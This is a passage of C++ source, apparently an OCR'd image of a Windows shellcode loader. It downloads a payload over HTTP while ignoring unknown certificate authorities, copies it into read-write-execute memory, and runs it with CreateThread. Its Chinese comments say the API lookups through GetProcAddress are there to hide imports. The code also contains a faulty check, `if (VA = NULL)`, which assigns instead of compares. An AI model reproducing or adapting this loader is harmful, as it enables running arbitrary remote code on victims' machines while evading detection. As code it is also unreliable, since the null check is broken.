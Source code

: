 ```c++
            return 0;
        }
        int dwFlags;
        int size = sizeof(dwFlags);
        InternetQueryOptionA(HttpRequest, INTERNET_OPTION_SECURITY_FLAGS, &dwFlags, (LPDWORD)&size);
        dwFlags = dwFlags | SECURITY_FLAG_IGNORE_UNKNOWN_CA;
        InternetSetOptionA(HttpRequest, INTERNET_OPTION_SECURITY_FLAGS, &dwFlags, sizeof(dwFlags));
        int ret = HttpSendRequestA(HttpRequest, NULL, 0, NULL, 0);
        if (ret == FALSE) {
            printf("http send request error:%d\n", GetLastError());
            return 0;
        }
        char* statscode[16] = { 0 };
        size = 16;
        ret = HttpQueryInfoA(HttpRequest, HTTP_QUERY_STATUS_CODE, statscode, (LPDWORD)&size, NULL);
        if (ret == FALSE) {
            printf("httpqueryinfo error:%d\n", GetLastError());
            return 0;
        }
        int scode = atoi((const char*)statscode);
        printf("code:%d\n", scode);
        if (scode != HTTP_STATUS_OK && scode != HTTP_STATUS_CREATED) {
            printf("%d please retry\n", scode);
            return 0;
        }
        PVA VA = (PVA)GetProcAddress(LoadLibraryA("kernel32.dll"), "VirtualAlloc");//分配内存
        //PVA VA = (PVA)GetProcAddress(LoadLibraryA("kernel32.dll"), "VirtualAlloc2");//win10可以使用这个函数
        if (VA = NULL) {
            printf("get function error:%d\n", GetLastError());
            return 0;
        }
        char* contentL[16] = { 0 };
        size = 16;
        ret = HttpQueryInfoA(HttpRequest, HTTP_QUERY_CONTENT_LENGTH, contentL, (LPDWORD)&size, NULL);
        int length = atoi((const char*)contentL);
        cout << "length:" << length << "\n";
        if (ret == FALSE) {
            printf("htttpqueryinfo error:%d\n", GetLastError());
            return 0;
        }
        void* c = VA(NULL, length + 1, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);//保存获取的文件，实现加载器
        int readed = 0;
        InternetReadFile(HttpRequest, c, length + 1, (LPDWORD)&readed);
        char* cc = (char*)c + 11;//跳过配置文件前面追加字符
        PCT ppct=(PCT)GetProcAddress(LoadLibraryA("kernel32.dll"), "CreateThread");//隐藏导入api函数
        HANDLE ct = ppct(NULL, 0, (LPTHREAD_START_ROUTINE)cc, NULL, 0, NULL);//执行
        WaitForSingleObject(ct, INFINITE);
        VirtualFree(c, length + 1, MEM_DECOMMIT);
    }
    return 0;
}
```
